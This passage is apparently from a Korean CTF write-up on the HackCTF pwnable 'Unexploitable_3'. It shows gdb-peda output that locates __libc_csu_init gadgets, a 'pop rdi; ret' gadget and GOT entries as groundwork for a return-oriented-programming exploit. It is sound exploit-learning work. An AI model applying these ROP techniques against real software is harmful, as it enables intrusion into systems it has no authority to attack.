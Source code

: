 <pre>
gdb-peda$ pd __libc_csu_init
Dump of assembler code for function __libc_csu_init:
...
   0x0000000000400720 <+64>:	mov    rdx,r13
   0x0000000000400723 <+67>:	mov    rsi,r14
   0x0000000000400726 <+70>:	mov    edi,r15d
   0x0000000000400729 <+73>:	call   QWORD PTR [r12+rbx*8]
   0x000000000040072d <+77>:	add    rbx,0x1
   0x0000000000400731 <+81>:	cmp    rbx,rbp
   0x0000000000400734 <+84>:	jne    0x400720 <__libc_csu_init+64>
   0x0000000000400736 <+86>:	add    rsp,0x8
   0x000000000040073a <+90>:	pop    rbx
   0x000000000040073b <+91>:	pop    rbp
   0x000000000040073c <+92>:	pop    r12
   0x000000000040073e <+94>:	pop    r13
   0x0000000000400740 <+96>:	pop    r14
   0x0000000000400742 <+98>:	pop    r15
   0x0000000000400744 <+100>:	ret    
End of assembler dump.
</pre>

**libc\_csu\_init\_down=0x40073a <br>
libc\_csu\_init\_up=0x400720**

rdi는 4bytes까지밖에 옮길 수 없다는 것에 유의해야 하지만 출력하고자 하는 주소를 담고있는 got의 주소는 4bytes 내의 길이를 가지고 있기 때문에 상관이 없다.

pop\_rdi\_ret gadget과 필요한 plt, got위치는 다음과 같다.
<pre>
gdb-peda$ ropsearch "pop rdi; ret"
Searching for ROP gadget: 'pop rdi; ret' in: binary ranges
0x00400743 : (b'5fc3')	pop rdi; ret
</pre>

**pop\_rdi\_ret=0x400743**

<pre>
gdb-peda$ p main
$1 = {<text variable, no debug info>} 0x40065f <main>

gdb-peda$ got

/home/sjy0175/Desktop/HackCTF/Pwnable/35.Unexploitable_3/Unexploitable_3:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
0000000000600ff8 R_X86_64_GLOB_DAT  __gmon_start__
0000000000601050 R_X86_64_COPY     stdout@@GLIBC_2.2.5
0000000000601060 R_X86_64_COPY     stdin@@GLIBC_2.2.5
0000000000601018 R_X86_64_JUMP_SLOT  __libc_start_main@GLIBC_2.2.5
0000000000601020 R_X86_64_JUMP_SLOT  fgets@GLIBC_2.2.5
0000000000601028 R_X86_64_JUMP_SLOT  setvbuf@GLIBC_2.2.5
0000000000601030 R_X86_64_JUMP_SLOT  fwrite@GLIBC_2.2.5

